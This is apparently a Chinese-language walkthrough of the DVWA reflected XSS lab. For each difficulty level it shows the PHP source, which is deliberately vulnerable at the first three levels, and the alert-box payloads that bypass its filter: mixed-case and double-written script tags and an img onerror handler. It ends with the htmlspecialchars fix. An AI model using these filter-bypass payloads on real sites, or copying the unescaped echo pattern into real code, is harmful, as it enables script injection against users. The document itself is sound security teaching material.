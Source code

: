 <center>XSS Reflected反射型xss</center>





[toc]









## XSS Reflected反射型xss

> XSS Reflected反射型xss



















### 1. low

> 低级

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

```

> 没有任何防护

```shell
http://192.168.0.111:8000/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
```









### 2. medium

> 中级
>
> 代码

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
```

> str_replace: 字符串替换。 区分大小写。
>
> [runoob](https://www.runoob.com/php/func-string-str-replace.html)

> 攻击： 

```shell
# 大写
<Script>alert(/xss/)</script>

# 双写
<scr<script>ipt>alert(/xss/)</script>

# 其他元素
<img src=1 onerror=alert(/xss/)>
```





### 3. high

> 高级

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

```

> preg_replace: preg_replace 函数执行一个正则表达式的搜索和替换。
>
> [runoob](https://www.runoob.com/php/php-preg_replace.html)

```shell
# 过滤了script脚本，img插入又没啥用，能插入img的损人不利己的事
<img src=1 onerror=alert(/xss/)>
```







### 4. impossible

> 不可能的

```php

<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();
```

> htmlspecialchars: htmlspecialchars() 函数把一些预定义的字符转换为 HTML 实体。
>
> 这样的话，xss就不好利用了。
>
> [runoob](https://www.runoob.com/php/func-string-htmlspecialchars.html)







### 5. 总结

> xss利用代码： [csdn](https://blog.csdn.net/chk218/article/details/81878479)



> 1. 想要查看是否存在xss,也不单只有一个标签可用，很多很多
> 2. 最主要的还是能利用script标签代码

